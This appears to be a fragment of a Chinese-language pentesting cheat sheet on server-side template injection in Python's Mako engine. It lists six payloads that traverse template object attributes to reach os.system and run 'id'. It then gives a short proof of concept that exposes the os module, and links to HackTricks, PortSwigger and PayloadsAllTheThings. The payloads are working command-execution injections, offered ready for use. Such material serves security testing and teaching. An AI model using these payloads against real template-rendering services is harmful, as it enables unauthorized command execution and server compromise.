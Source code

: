 ```python
${self.attr._NSAttr__parent.module.runtime.exceptions.util.os.system("id")}
${self.context._with_template._mmarker.module.runtime.util.os.system("id")}
${self.context._with_template.module.filters.compat.inspect.os.system("id")}
${self.context._with_template.module.runtime.compat.inspect.os.system("id")}
${self.context._with_template.module.runtime.exceptions.util.os.system("id")}
${self.template.module.runtime.exceptions.traceback.linecache.os.system("id")}
```

PoC :

```python
>>> print(Template("${self.module.cache.util.os}").render())
<module 'os' from '/usr/local/lib/python3.10/os.py'>
```

## 参考资料

* [HackTricks - SSTI (Server Side Template Injection)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
* [PortSwigger - Server-side template injection](https://portswigger.net/web-security/server-side-template-injection)
* [PayloadsAllTheThings - Server Side Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
* [SSTI (Server Side Template Injection) - HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
* [Server-Side Template Injection - PortSwigger](https://portswigger.net/research/server-side-template-injection)
